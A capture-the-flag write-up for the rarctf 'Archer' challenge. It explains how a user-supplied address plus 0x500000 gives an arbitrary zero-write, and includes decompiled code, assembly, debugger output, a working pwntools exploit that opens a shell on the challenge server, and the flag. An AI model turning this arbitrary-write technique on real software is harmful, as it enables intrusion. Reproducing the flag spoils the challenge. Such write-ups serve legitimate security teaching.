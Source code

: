 # Archer
`It's battle time! We're giving you one shot, one kill - choose wisely.`

## Challenge
> TLDR: Input an address so that supplied address + 0x500000 = address of `code` variable

Ghidra's decompiled `main()`
```c
undefined8 main(void)

{
  char *pcVar1;
  char local_d [5];
  
  puts("It\'s battle day archer! Have you got what it takes?");
  printf("Answer [yes/no]: ");
  fflush(stdout);
  fgets(local_d,5,stdin);
  pcVar1 = strstr(local_d,"no");
  if (pcVar1 != (char *)0x0) {
    puts("Battle isn\'t for everyone.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Awesome! Make your shot.");
  makeshot();
  puts("Hope you shot well! This will decide the battle.");
  if (code == 0x13371337) {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("WE WON!");
  fflush(stdout);
  system("/bin/sh");
  return 0;
}
```

To spawn a shell, we need to modify the value of `code` variable (located at 0x404068) so that it does not contain 0x13371337 value.

ASM snippet of `makeshot()` 
```
LEA        RAX=>local_10,[RBP + -0x8]
MOV        RSI,RAX
LEA        RDI,[DAT_00402109] 
MOV        EAX,0x0
CALL       <EXTERNAL>::__isoc99_scanf
MOV        RAX,qword ptr [RBP + local_10]
ADD        RAX,0x500000
MOV        qword ptr [RBP + local_10],RAX
MOV        RAX,qword ptr [RBP + local_10]
MOV        qword ptr [RAX],0x0
```

The above ASM shows that the program is vulnerable to arbitrary modification. This is because local_10 is controlled by us. We can provide any address we want and change the value of (user supplied address + 0x500000) address to 0.

The following output shows that we can overwrite the value of `code` variable.
```bash
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
-snip-
0x0000000000404000 0x0000000000405000 0x0000000000003000 rw- /home/kali/Downloads/rarctf/archer
-snip-
```

Idea: Provide an address so that supplied address + 0x500000 = address of `code` variable

Working POC:
```python
from pwn import *

offset = b'FFFFFFFFFFF04068' # 0x404068 - 0x500000
#r = process('./archer')
r = remote('193.57.159.27', 43092)
r.recvuntil(b'no]: ')
r.sendline(b'yes')
r.recvuntil(b'shoot?\n')
r.sendline(offset)
r.interactive()
```

Flag: `rarctf{sw33t_sh0t!_1nt3g3r_0v3rfl0w_r0cks!_170b2820c9}`